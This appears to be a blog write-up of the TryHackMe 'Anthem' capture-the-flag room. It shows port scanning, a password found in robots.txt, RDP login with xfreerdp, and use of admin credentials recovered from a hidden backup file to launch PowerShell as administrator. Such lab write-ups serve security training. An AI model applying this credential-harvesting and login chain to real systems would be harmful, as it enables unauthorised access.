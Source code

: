 ```yaml
---
layout: post
title:  "Anthem"
categories: [tryhackme]
tags: [windows,rdp,enumeration,osint,backup,permission]
---
```


You can find this machine here : `https://tryhackme.com/room/anthem`

### Port Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ sudo nmap -Pn 10.10.24.60                  

PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
```

![image]( /assets/img/anthem/1.PNG)


### Information Gathering

#### Domain Name

```bash
┌──(kali㉿Zeus)-[~]
└─$ cat /etc/hosts | grep com
10.10.24.60     anthem.com
```

#### Robots.txt & Password

```bash
┌──(kali㉿Zeus)-[~]
└─$ curl http://anthem.com/robots.txt
UmbracoIsTheBest!

# Use for all search robots
User-agent: *

# Define the directories not to crawl
Disallow: /bin/
Disallow: /config/
Disallow: /umbraco/
Disallow: /umbraco_client/
```

#### Users & Emails

![image]( /assets/img/anthem/3.PNG)

![image]( /assets/img/anthem/4.PNG)


```bash
James Orchard Halliwell
Jane Doe
JD@anthem.com
Solomon Grundy
SG@anthem
```

### User Owned 

```bash
xfreerdp /f /v:anthem.com /u:'sg'  /p:'Umbraco<REMOVED>Best!'
```

![image]( /assets/img/anthem/2.PNG)


### File Enumeration & Change Permissions

```bash
C:\Users\SG>dir C:\ /a:h /b /s
C:\$Recycle.Bin
C:\backup
C:\Documents and Settings
C:\pagefile.sys
C:\Recovery
C:\System Volume Information
C:\$Recycle.Bin\S-1-5-21-3886845925-2521176483-1368255183-500
C:\Program Files\desktop.ini
C:\Program Files\Uninstall Information
C:\Program Files\Windows Sidebar
C:\Program Files\WindowsApps
C:\Program Files (x86)\desktop.ini
C:\Program Files (x86)\Uninstall Information
C:\Program Files (x86)\Windows Sidebar
C:\ProgramData\Application Data
C:\ProgramData\Desktop
C:\ProgramData\Documents
<snip>
```

![image]( /assets/img/anthem/5.PNG)

![image]( /assets/img/anthem/6.PNG)

![image]( /assets/img/anthem/7.PNG)

```bash
ChangeMe<REMOVED>1MoreTime
```

### System Onwed

```powershell
$secpasswd = ConvertTo-SecureString -AsPlainText -Force -String ChangeMe<REMOVED>1MoreTime
$mycreds = New-Object System.Management.Automation.PSCredential ("administrator", $secpasswd)
Start-Process powershell.exe -Credential $mycreds
```

or

```powershell
xfreerdp /f /v:anthem.com /u:'administrator'  /p:'ChangeMe<REMOVED>1MoreTime'
```

![image]( /assets/img/anthem/8.PNG)
